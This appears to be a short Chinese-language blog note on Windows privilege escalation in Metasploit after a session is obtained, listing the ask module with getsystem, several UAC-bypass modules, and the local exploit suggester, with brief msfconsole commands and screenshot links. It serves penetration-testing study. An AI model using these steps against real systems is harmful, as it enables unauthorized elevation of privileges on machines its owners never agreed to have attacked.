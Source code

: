 ```yaml
---
title: MSF提权
top: true
cover: true
toc: true
mathjax: true
date: 2020-10-22 21:04:04
password: xxxxx
summary: 权限提升
tags: 权限提升
categories: 权限提升
---
```


---

### **MSF权限提升**

#### **方法：**

- 提高程序运行级别
- BypassUAC
- 利用漏洞提权

 一、提高程序运行权限

获取到session后发现权限比较低，此时可以使用  exploit/windows/local/ask模块来尝试进行攻击

![image-20201022225705503](MSF提权/image-20201022225705503.png)

```
set session 1
set filename qq.exe
exploit
```

![image-20201022211517291](MSF提权/image-20201022211517291.png)

获取到新的session，backkground退回msf，session，执行getsystem

![image-20201022212015935](MSF提权/image-20201022212015935.png)

![image-20201022212235253](MSF提权/image-20201022212235253.png)

![image-20201022212618886](MSF提权/image-20201022212618886.png)

二、UAC绕过

相关模块

```
exploit/windows/local/bypassuac
exploit/windows/local/bypassuac_injection
exploit/windows/local/bypassuac_vbs
exploit/windows/local/bypassuac_eventvwr 
```

bypassuac，先bypassuac在通过getsystem获取一个更高权限的session

![image-20201022215103702](MSF提权/image-20201022215103702.png)

![image-20201022215139866](MSF提权/image-20201022215139866.png)

三、利用漏洞提权

相关模块

自动查找响应系统提权exp，search suggester这个模块



```
use post/multi/recon/local_exploit_suggester
set session id
run
```

![image-20201022220516950](MSF提权/image-20201022220516950.png)

然后利用相关exp尝试提权



----